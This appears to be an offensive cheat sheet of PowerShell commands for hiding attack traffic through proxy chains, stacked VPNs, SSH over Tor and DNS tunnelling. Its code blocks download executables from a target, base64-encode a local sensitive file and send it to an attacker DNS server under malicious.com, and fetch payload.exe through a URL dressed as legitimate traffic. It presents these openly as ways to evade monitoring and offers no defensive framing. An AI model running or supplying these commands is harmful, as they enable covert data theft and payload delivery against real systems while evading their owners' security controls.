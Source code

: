 # Proxy Chain Setup for Anonymity

Proxies can be chained to evade detection and hide the true source of network traffic.

#### Configure PowerShell to Use Multiple Proxies
```powershell
$proxy1 = New-Object System.Net.WebProxy("http://proxy1.com:8080")
$proxy2 = New-Object System.Net.WebProxy("http://proxy2.com:8080")
$webclient = New-Object System.Net.WebClient
$webclient.Proxy = $proxy1
$webclient.DownloadFile("http://<target_ip>/file.exe", "C:\Temp\file.exe")
$webclient.Proxy = $proxy2
$webclient.DownloadFile("http://<target_ip>/file.exe", "C:\Temp\file2.exe")
```

# Layered Encryption and Proxying

#### Double VPN
Use two VPN services to create multiple layers of encryption and IP obfuscation. PowerShell can invoke and control multiple VPN clients to achieve this.

- Start First VPN Connection:
	```powershell
	Add-VpnConnection -Name "VPN1" -ServerAddress <vpn1_ip> -TunnelType SSTP
	```

- Start Second VPN from Within First VPN:
	```powershell
	Add-VpnConnection -Name "VPN2" -ServerAddress <vpn2_ip> -TunnelType PPTP
	```

#### PowerShell Over SSH and Tor (Layered Anonymity)
Route PowerShell commands through SSH and Tor for highly anonymized traffic.

- SSH Over Tor with PowerShell:
	```powershell
	Start-Process -FilePath "tor.exe" -ArgumentList "-client -f torrc"
	ssh -D 9050 user@<pivot_ip>
	```

# Covert Channels

#### DNS Tunneling (PowerShell)
Encapsulate malicious traffic within DNS requests, which are often ignored by security systems. This method helps evade firewalls and proxy restrictions.

- Send DNS Query to Evade Monitoring:
	```powershell
	$dnsData = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("Malicious Payload"))
	Resolve-DnsName -Name "$dnsData.malicious.com" -Server <attacker_dns_server>
	```
- Full DNS Tunneling (Covert Data Exfiltration via DNS):
```powershell
$data = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((Get-Content C:\SensitiveData.txt)))
$dnsQuery = "$data.malicious.com"
Resolve-DnsName -Name $dnsQuery -Server <attacker_dns_server>
```
- Evade DNS Monitoring by Spoofing Legitimate DNS Traffic:
```powershell
$dnsPayload = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("payload.exe"))
Invoke-WebRequest -Uri "http://legitimatedomain.com/$dnsPayload" -OutFile C:\Temp\payload.exe
```
